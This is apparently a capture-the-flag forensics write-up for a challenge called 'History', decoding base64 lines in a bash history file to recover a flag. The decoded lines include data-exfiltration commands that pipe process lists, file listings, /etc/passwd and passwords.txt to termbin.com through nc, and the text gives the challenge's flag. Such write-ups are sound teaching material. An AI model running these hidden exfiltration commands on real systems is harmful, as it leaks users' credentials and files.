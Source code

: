 
# Challenge Name: History  


![date](https://img.shields.io/badge/date-16.03.2021-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg) 
![misc category](https://img.shields.io/badge/category-forensics-lightgrey.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)


## Attached files
- [ctrl_H](ctrl_H)





## Detailed solution
The challenge talk about a file founded at one of the company's computers. The file represent a list of commands which is similar to a bash history file.  

Start looking at the file, we found some base64 encoding strings : 

````bash
echo aWRlaDEK | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
echo kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=
echo ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo= | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
````
Let's decode them : 

````
aWRlaDEK                                                             ideh1
cHMgYXggPiBwcm9jZXNzZXM=                                             ps ax > processes
Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK                     cat processes | nc termbin.com 1337
bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==                             ls -l | nc termbin.com 1337 
kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=                           DãU4ãÔww¥#U%DE#6sÓÐ
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj                           echo aWRlaHt0aDBzM19iNDV0M3JkNV ideh{th0s3_b45t3rd5
Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo=                 cat /etc/passwd | nc termbin.com 1337
Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==             cat passwords.txt | nc termbin.com 1337
````

We reconize the first part from the flag "ideh{th0s3_b45t3rd5" we can assume that the other part has been cut from the encoded base64. 
  
Decoding "kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=" has produce some random caracteres so probably it's the missing part.  

The **CTRL_H** from the challenge filename is a keyboard shortcut for bash used to delete the character before the cursor. So we know that a part has been deleted.   

Lets combine ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj and kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= and decode it : 

````
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVjkwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= 
-> echo aWRlaHt0aDBzM19iNDV0M3JkNV90aDN5X3N0MGwzX215X2Q0dDR9Cg==
-> ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4}
````

## Flag

```
ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4} 
```
